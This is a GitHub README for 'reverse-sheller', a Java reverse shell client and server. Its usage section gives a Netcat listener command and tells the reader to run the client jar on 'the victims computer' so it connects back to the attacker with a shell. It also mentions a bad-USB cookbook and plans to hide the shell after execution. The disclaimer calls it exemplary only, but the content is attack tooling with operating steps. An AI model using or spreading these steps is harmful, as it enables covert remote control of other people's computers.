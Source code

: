 # reverse-sheller

## Build and execute this .jar on target machine with JDK11 or above to get a reverse shell from your host.

![Reverse shell terminal picture](imgs/reverse-shell-picture.jpg)

This repo is an example of reverse shell .jar client and server implementation.

## Table of Contents

* [Usage 💡](#usage)
* [About 💁📙](#about)
* [TODO 📝](#todo)
* [Author 👷](#author)

## Usage 💡 <a name="usage"></a>

0) Build the modules using:
-Unix cmd:
```bash
./gradlew build
```
- or Windows cmd:
```bat
.\gradlew.bat build
```
You should find executable .jar's afterwards in:
`src/client/build/libs`
`src/server/build/libs`

1) Open server waiting for client connection:
- using Netcat (check if installed):
```bash
nc -lvnp <port>
```
- or using the server .jar:
```bash
java -jar <filename.jar> <port>
```
- f.e.:
```bash
java -jar server-sheller-0.0.1.jar 4444
```
From this terminal you will be able to execute reverse shell commands:


2) Grab the `client.jar` from `./src/client/build/libs` and execute it on the victims computer using:
```bash
java -jar <filename.jar> <IP address> <port>
```
f.e.:
```bash
java -jar <filename.jar> 127.0.0.1 4444
```

And voilà!

(Requirement: JDK8 or higher needed to be installed on victim's computer, and JAVA_HOME variable needs to be 
pointing to working JDK instance)

## About 💁📙 <a name="about"></a>

This repo is an example of reverse shell .jar client and server implementation.
I redirected stdout and stdin to and from socket creating reverse shell. This repo is for exemplary usage only and
shouldn't be used for a real attack (which would be still mostly limited. This implementation so far doesn't allow
sudo and other advanced terminal functions. Only a simple cmd execution is provided).

It contains also a cookbook, how to build bad-usb and how to create your own listening server suing Cloud provider.

## TODO 📝 <a name="todo"></a>

Things that need to be done:

1) Add IaC for server deploy
2) Hide shell after execution, so that the bad-usb can be unplugged and the
process will stay connected allowing the attacker to execute code using reverse shell.
3) ...
...

![README ending picture](imgs/readme-ending-picture.jpg)

## Author 👷 <a name="author"></a>

Drop me a line at: contact.drzymala@gmail.com

sudo ssh -i "/etc/ssh/***.pem" admin@IP -vvv
export SERVER_PORT=5000
sudo apt install openjdk-11-jre-headless
sudo apt-get update
